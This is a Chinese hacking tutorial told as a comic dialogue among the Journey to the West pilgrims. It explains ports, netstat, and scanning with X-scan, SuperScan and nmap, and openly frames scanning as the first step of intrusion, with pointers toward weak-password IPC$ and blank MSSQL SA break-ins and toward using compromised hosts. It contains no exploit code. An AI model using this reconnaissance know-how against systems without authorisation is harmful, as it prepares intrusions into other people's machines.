八戒一听，不就是个网站入侵，怎么还和吉利的数字 80 联系到一起了，不禁头皮发痒，水灵灵的眼睛瞪得悟空心里直发毛。悟空赶紧解释：“因为网站默认使用的都是系统的 80 端口，所以我们把对网站入手的攻击或防范简称 80 端口下的攻防。”沙僧：“大师兄，你提到的这个端口，我们听过好多遍了，究竟是个什么意思？”

“端口这东西嘛，人们使用得比较多的一个比喻是窗口。”

“窗口？”唐僧光光的头上又冒出个问号。

“对，在网络上，如果把一个 IP 当作是一个服务场所，那么不同的端口就是不同的服务窗口。在医院，挂号有一个窗口，取药有一个窗口，等等。那么每台服务器提供的不同服务，比如 WEB 服务，一般那个窗口都是80号，因为 WEB 服务端口一般是开在 80；FTP 服务则一般是21号窗口；还有 SMTP 服务是25号窗口等等。”（如图1）

“哦，原来是这样，怪不得我们要去挂号就不能去取药的窗口，要访问网站就要去80号窗口排队而不能到21号窗口去插队是吧！？”三个人似乎都对端口理解了那么一点点。

悟空吸了口烟继续讲解：“要入侵，首先别人要有漏洞，人家有漏洞，你得能连接上别人才能利用并入侵。要连接人家，则要通过端口。那么，知道对方开了什么端口，在入侵前的探测非常重要。假设我们知道对方开了80端口，那么对方很有可能开了 WEB 服务，访问一下也许就会看到网站，也许就会看到漏洞，也许就会被我们入侵进去……如果开了445一类的端口，对方很可能就是 Windows 2000 以上的系统，很可能有网上邻居，而一些溢出漏洞也是通过此类端口来入侵的。关于溢出漏洞的问题，我们会在以后的课堂中继续详细解释。”

唐僧还是没太理解，还是沙僧接受能力强：“那么，我们要怎么样才知道人家开了什么端口呢？我们自己的机器又开了什么端口呢？”

悟空把手头才吸了两口的烟往地下一扔：“要看自己的机器开了些什么端口很简单，直接在 CMD 下输入命令：Netstat -an，看看如图2的结果。”

“‘Proto’是网络协议的类型，分 TCP 和 UDP 两种；‘Local Address’是本地地址，冒号后面的是自己打开着的端口；‘Foreign Address’是外部地址，同理，冒号后面的是外部 IP 的端口号，这里 0.0.0.0:0 代表着没有连接，只是监听任何地址的任何端口的连接；‘State’是状态的意思，LISTENING 表示当前正在监听。若当前连接是活跃的、正在使用的，那么状态处显示的就会是 ESTABLISHED。”

唐僧小心翼翼输入这个命令后，看到自己的机器上开了好多好多的端口，不禁吓得面容失色：“悟空救我，为何为师的机器有这么多端口？是怎么来的？”

图1

图2

悟空探了个头瞄了一眼：“嗨，师傅别那么紧张，这些端口都是正常的。这样吧，给你个好东西 mt.exe，输入 mt.exe -psport 就可以看到每一个端口是由哪些进程打开的了，如图3。inetinfo.exe 对应了80等几个端口，这是你机器上开了 IIS 服务的原因；svchost.exe、alg.exe、QQ.exe 等进程也开了一些端口，因为你的机器和网络有联系……”

图3

八戒糊涂了：“这个，我说，猴哥，俺们东北话菜鸟怎么知道哪些端口打开是正常的啊？”

“哦，这个也简单，上 Google 或者百度随便搜一下端口对照表就知道了。”

“明白明白，理解理解，这是看自己打开的端口，那我想关掉其中某个端口有什么办法吗？”

“其实端口本身并不能被单独地打开或者关闭，正确做法是关闭其中某项服务，对应的端口就被关掉了。比如我们将 IIS Admin 服务停掉，会发现80、443等几个相应的端口都消失了。……可以使用防火墙或者 Windows 自带的 TCP/IP 过滤来实现禁止别人连接端口的目的。”

唐僧赶紧打个哈哈：“晓得晓得，那我想知道人家开了哪些端口要怎么做呢？”

悟空仰天一笑，摆出个 Pose：“两个字——扫描！”

“扫描？”众人都把耳朵竖了起来。

“所谓扫描，其实也就是一种探测。比如想知道你家窗户开了没有，我就挨个地去推一推、拉一拉。而要知道一个 IP 的端口开了没有，我就挨个地去连接一下……常见的扫描器比较多，今天我会拿几个黑坛老将出来和大家见面，他们分别是：X-scan、SuperScan、Nmap。”

图4

图5

“首先是 X-scan，它是由鼎鼎大名的冰河的作者（现在用 glacier 做网名了）编写的，最新的版本是 3.2……双击打开 xscan_gui.exe 后如图4，单击‘扫描参数’设置按钮，会弹出如图5的界面。”

“这里是写扫描参数的。首先是指定需要检测的 IP 范围……比如 192.168.1.1/254 就是扫描 192.168.1.0 这一整个 IP 段。点出‘示例’那个小按钮你会一目了然看到这里该如何填写。地址簿也是一个不错的功能，使用方法见图6。”

图6

“当然，从文件获取 IP 也是一件很简单的事，有些时候，我们手上有一份 IP 单，但是并不一定是连续的，比如有 192.168.1.123、221.232.221.232、61.123.123.123，等等，那么我们只需要新建……”

## 小鸡快跑

一个文本文件比如名字为 hostlist.txt，将这些 IP 写入文本文件里，一行一个，然后选择从文件获取主机列表，就会弹出个浏览框，选中 hostlist.txt 就可以了。扫描模块处是需要选择的扫描内容，如果只是扫描单一主机，那么可以全部选中，点全选就是了……一般来说，对于普通的 Windows 主机，我们按图中选项来选择就差不多了，如图 7。



图 7

并发设置则是在扫描多个 IP 时同时允许扫描的主机数，还有扫描的线程数，很明显同时扫的多、线程开的多会使扫描的速度变快……网络设置里是设置该使用哪块网卡来扫描的，如果有多网卡的话，否则不必理会。扫描报告选项卡可以设置扫描报告的类型，一般而言，HTML 的看起来最舒服……

如果你想多次扫描并且每次都能够将结果保留的话，最好将扫描报告的名字改一改，否则重新扫描后，新的扫描报告会覆盖掉原先的。其他设置里有一项比较重要的东西，就是过滤设备响应的主机和无条件扫描。X-SCAN 会首先用 ping 的方法来判断是否在线……这是新手最容易犯的错误。

接下来是“插件设置”，在这里可以设置各扫描插件的相关选项。比如端口信息……检测方式有两种 TCP 和 SYN。SYN 是一种半扫描技术，一旦采用，速度很快，可是不怎么稳定，所以如果不是特别要求速度的话，还是建议使用默认的 TCP 方式就行了，免得 X-SCAN 误报军情。

“SNMP 相关设置”和“NETBIOS 相关设置”里个人推荐全选……点确定之后，再点开始扫描的按钮，X-SCAN 就开始为我们工作了。这时候注意切换一下信息反馈处的选项卡看看中间过程……如图 8。



图 8



图 9

众人看到这么新奇好玩的东西，马上开着 X-SCAN 狂扫一阵，扫出的一些弱口令、安全提示、安全漏洞，感觉这东西威力好惊人，不过却不知道这些漏洞该如何利用。于是又眼巴巴望着悟空：“这些漏洞应该怎么利用呢？”

> “这些漏洞各不相同，每一个漏洞几乎都有自己独特的利用方式，所以 X-SCAN 把它们综合在一起才显得伟大。……首先是 NT-server 弱口令，说白了也就是密码很白痴，如果是 2000 或者 2003 的系统的话，拿到了服务器的密码，就可以用大名鼎鼎的 IPC$ 入侵方式来玩了……”

还有种就是 MSSQL 的 SA 空口令，这种漏洞的原因是人家安装了 MSSQL 服务，却又不好好给权限最高的 SA 用户设上密码……再还有就是各种溢出漏洞，一般会有相应的利用工具，不过具体涉及到溢出的问题，我们以后会专门用一节课来讲解，所以这里就不多说了，尽量帮你们。”

八戒听完这话，若有所思地用百度开始搜起资料来：“好，知道了，猴哥，没你啥事了，闪边凉快去吧！”

悟空点起另一支烟：“哦？是吗？师傅，沙师弟，你们过来，我再教你们一个超级扫描器，SuperScan。呆子，我什么时候叫你过来了？嘿嘿！”

X-SCAN 擅长的是详尽地扫描所有的漏洞并描述出来，还会给出安全建议，而现在要介绍的 SuperScan 则是在扫描界以速度见称的超快扫描器。首先看一下它的样子，如图 10。



图 11



图 10



图 12

其实对 X-SCAN 熟悉了以后，对 SuperScan 也就不会陌生了。大家使用起来无非就是设置一个 IP 范围，再对扫描中的选项进行选择，最后点开始扫描就是了。IP 设置方法很简单，填入 www.hackerxfiles.net 后点那个“->”按钮就可以把 X 档案论坛的 IP 加进去了，如果要加入 192.168.1.1-192.168.1.254 这个 IP 段的话，在开始 IP 处填入 192.168.1.1，结束 IP 处填入 192.168.1.254，然后点右边的那个“→”就 OK 了……

发现主机有四种方法，默认只使用回显请求，如果想尽可能多地搜集信息，你也可以全都选中，当然，选的越多，所花的时间也就会越长。端口扫描处的设置和 IP 设置的方法一样……

如果有兴趣的朋友可以随意更改里面的选项，然后扫描看看有什么不同的地方，这是自学一个软件使用的最好方法。而且 SuperScan 非常体贴地设置了一个“恢复默认值”的按钮……

再往下看就是 SuperScan 的工具选项卡和 Windows 枚举选项卡了。“工具”选项卡里的东西我用的不多，不过还是简单介绍几个平时能用得上的：

- 查找主机名——输入 www.hackerxfiles.net 将得到其 IP 地址
- Ping——和在 CMD 下的 ping 没什么大的区别
- ICMP 跟踪——类似于 CMD 下的 tracert 命令
- HTTP HEAD/GET——获取 80 端口的 banner（扫描时已经自动将 banner 获取写在扫描报告里的）

还有 whois 查询，不过试了几个，都查不出什么东西出来，所以这个里面的东西个人认为没有什么特色，基本上用不着。Windows 枚举里的东西则是基于 NETBIOS 的，一般里面可以获取的信息 X-SCAN 也可以获取，并且比它获取得详细……

八戒看了半天 SuperScan，看得头大，好不容易反应过来，悟空又嘎嘎开了：“我想大家都知道 Unix 和 Linux 系统吧，很多高手都是在这些系统下工作的。他们喜欢用的扫描工具叫做 Nmap。”

“不过 nmap 却有它自己最独到的地方，那就是它的结果是这几个软件里最准确的，而且由于其命令行的工作模式，也很适合在只有 cmd shell 的高速肉鸡上使用。”



“那该怎么用呢？”还是沙僧最谦虚了。悟空还是到安全焦点上下载了个最新版的 nmap-3.81-win32，解压后在 CMD 里切换到该目录下，输入 nmap 就可以看到用法提示（运行 nmap 前首先需要安装 Winpcap 2.1-beta 或者更高版本，否则会提示“没有找到 WanPacket.dll”）。同时，由于 Winpcap 的原因，nmap 不能扫描自己，如图 14。



将其翻译为中文如下：

> **注意** nmap [扫描类型] [操作参数] <主机或者是主机清单>

最简单的扫描当然就是：`nmap 192.168.1.1`（如图 15）。

如果要加参数，例如：

```bash
nmap -vV -sS -p 21-23,80,135,443-445 192.168.1.1
```

并对 `-sS`、`-p` 等参数进行说明。

最后面是跟主机，如果是多个连续 IP 也可以使用 192.168.1-254 这种方式。不过鉴于 nmap 的速度不是很快，而且扫描的时候并没有足够详细的信息来显示进度，很容易让初学者以为它没有响应，因为它会显示一句“Starting nmap 3.81 ( http://www.insecure.org/nmap ) at ...”就是一片黑糊糊的界面不动了。所以不推荐大家使用 nmap 同时扫描过多的主机。



- **小知识——nmap 常用参数：**
  - 扫描类型
    - `-sS` TCP 的 SYN 方式（需要管理员权限）
    - `-sT` TCP connect() 方式（不需要特权）
    - `-sU` UDP 端口扫描
    - `-sP` 使用 ping 方式扫描
  - 操作参数
    - `-O` 使用 TCP/IP fingerprinting 探测远程主机系统
    - `-p <port>` 端口范围
    - `-F` 快速模式
    - `-iL` 从主机名或 IP 列表文件中读取目标主机

悟空虽讲得津津有味，却没忘记观察到八戒和唐僧其实也在偷偷做笔记，于是干脆做个总结：“今天讲到的这三个扫描工具，X-SCAN 以详细全面著称，superscan 以速度见长，而 nmap 则以精确度为其特色，可谓是各有千秋。所以我们扫描的时候不能只相信或者使用其中某一个工具，应当结合实际情况分别使用不同的工具。扫描是入侵时知己知彼的第一步，灵活掌握使用扫描技术，可以使往后的人侵变得有计划、有条理，并且有针对性。……”

“好了，今天补课就先到这里了，关于扫出来的漏洞信息该如何利用我们下回再具体分析。八戒快把装备给我，我得赶紧回去升级……对了，还要带我下副本……对了，还要带我去赚功勋值……还有还有……”

